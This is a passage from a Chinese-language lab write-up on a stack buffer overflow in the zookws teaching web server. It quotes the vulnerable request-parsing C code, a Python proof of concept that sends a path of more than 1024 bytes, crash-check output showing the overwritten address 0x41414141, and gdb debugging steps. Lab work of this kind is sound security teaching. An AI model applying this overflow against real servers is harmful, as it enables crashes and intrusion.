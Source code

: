 ``` c
    sp1++;
    if (*sp1 != '/')
        return "Bad request path";
    sp2 = strchr(sp1, ' ');
    if (!sp2)
        return "Cannot parse HTTP request (2)";
    *sp2 = '\0';
    sp2++;
    //  ... ...
    /* decode URL escape sequences in the requested path into reqpath */
    url_decode(reqpath, sp1);
    envp += sprintf(envp, "REQUEST_URI=%s", reqpath) + 1;
    //  ... ...
}
```

之前发现缓冲区有1024字节，我们就令请求路径超过1024字节。

``` python
 req =   "GET /" + 'A' * 1024 + " HTTP/1.0\r\n" + \
            "\r\n"
```
将攻击脚本复制两份，命名为`exploit-2a.py`和`exploit-2b.py`，并用`make check-crash`来验证是否导致程序崩溃。

``` sh
$ make check-crash
./check-bin.sh
./check-part2.sh zook-exstack.conf ./exploit-2a.py
./check-part2.sh: line 8:  4398 Terminated              strace -f -e none -o "$STRACELOG" ./clean-env.sh ./zookld $1 &> /dev/null
4417  --- SIGSEGV {si_signo=SIGSEGV, si_code=SEGV_MAPERR, si_addr=0x41414141} ---
4417  +++ killed by SIGSEGV +++
PASS ./exploit-2a.py
./check-part2.sh zook-exstack.conf ./exploit-2b.py
./check-part2.sh: line 8:  4423 Terminated              strace -f -e none -o "$STRACELOG" ./clean-env.sh ./zookld $1 &> /dev/null
4442  --- SIGSEGV {si_signo=SIGSEGV, si_code=SEGV_MAPERR, si_addr=0x41414141} ---
4442  +++ killed by SIGSEGV +++
PASS ./exploit-2b.py
```

该程序并通过(PASS)了检查。缓冲区漏洞导致程序因为SIGSEV信号而崩溃，指令地址被改写为`si_addr=0x41414141`。下面看看具体发生了什么。

使用`gdb -p 进程号`来调试程序。进程号可通过两种方法获得：观察`zookld`在终端输出子进程ID；或者使用`pgrep`，例如`gdb -p $(pgrep zookd-exstack)`。

使用`gdb`过程中，当父进程`zookld`被`^C`杀死时，被`gdb`调试的子进程并不会被终止。这将导致无法重启web服务器。因此，在重启`zookld`之前，应先退出`gdb`。

当生成子进程时，`gdb`缺省情况下仍然调试父进程，而不会跟踪子进程。由于`zookfs`为每个服务请求生成一个子进程，为了自动跟踪子进程，使用`set follow-fork-mode child`命令。该命令已经被加入`/home/httpd/lab/.gdbinit`中，`gdb`启动时会自动执行。

调试流程如下：

1. 在终端1中，重启服务：
`$ ./clean-env.sh ./zookld zook-exstack.conf`。
1. 在终端2中，启动`gdb`（`gdb -p PID`），并设置断点（`b`命令）。
1. 在终端3中，运行漏洞触发程序 `./exploit-2a.py localhost 8080`。
1. 返回终端2，继续调试（`c`命令）。
